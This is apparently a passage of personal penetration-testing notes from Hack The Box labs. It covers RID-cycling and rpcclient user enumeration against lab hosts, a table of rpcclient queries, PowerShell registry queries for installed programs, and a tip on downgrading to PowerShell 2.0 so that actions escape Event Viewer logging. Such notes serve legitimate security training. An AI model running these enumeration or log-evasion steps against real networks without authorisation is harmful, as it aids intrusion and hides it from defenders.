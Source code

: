 In case of **exceptions must derive from BaseException** use then next topic to solve it: https://github.com/fortra/impacket/issues/1206

### RID cycling attack

```bash

nxc smb 10.10.11.236  -u 'dfsdfs' -p '' --rid-brute

impacket-lookupsid dsdfsdfs@manager.htb -no-pass
```

### RPCClient

```bash
Intrusionz3r0X@htb[/htb]$ for i in $(seq 500 1100);do rpcclient -N -U "" 10.129.14.128 -c "queryuser 0x$(printf '%x\n' $i)" | grep "User Name\|user_rid\|group_rid" && echo "";done
Intrusionz3r0X@htb[/htb]$ samrdump.py 10.129.14.128
```

| **Query** | **Description** |
| --- | --- |
| `srvinfo` | Server information. |
| `enumdomains` | Enumerate all domains that are deployed in the network. |
| `querydominfo` | Provides domain, server, and user information of deployed domains. |
| `netshareenumall` | Enumerates all available shares. |
| `netsharegetinfo <share>` | Provides information about a specific share. |
| `enumdomusers` | Enumerates all domain users. |
| `queryuser <RID>` | Provides information about a specific user. |
| `querygroup <RID>` | Provides information about a specific group. |

## Get Installed Programs via PowerShell & Registry Keys

```powershell
PS C:\htb> $INSTALLED = Get-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\* |  Select-Object DisplayName, DisplayVersion, InstallLocation
PS C:\htb> $INSTALLED += Get-ItemProperty HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, InstallLocation
PS C:\htb> $INSTALLED | ?{ $_.DisplayName -ne $null } | sort-object -Property DisplayName -Unique | Format-Table -AutoSize
```

## **Downgrade Powershell**

<aside>
💡

W can attempt to call Powershell version 2.0 or older. If successful, our actions from the shell will not be logged in Event Viewer. This is a great way for us to remain under the defenders' radar while still utilizing resources built into the hosts to our advantage.
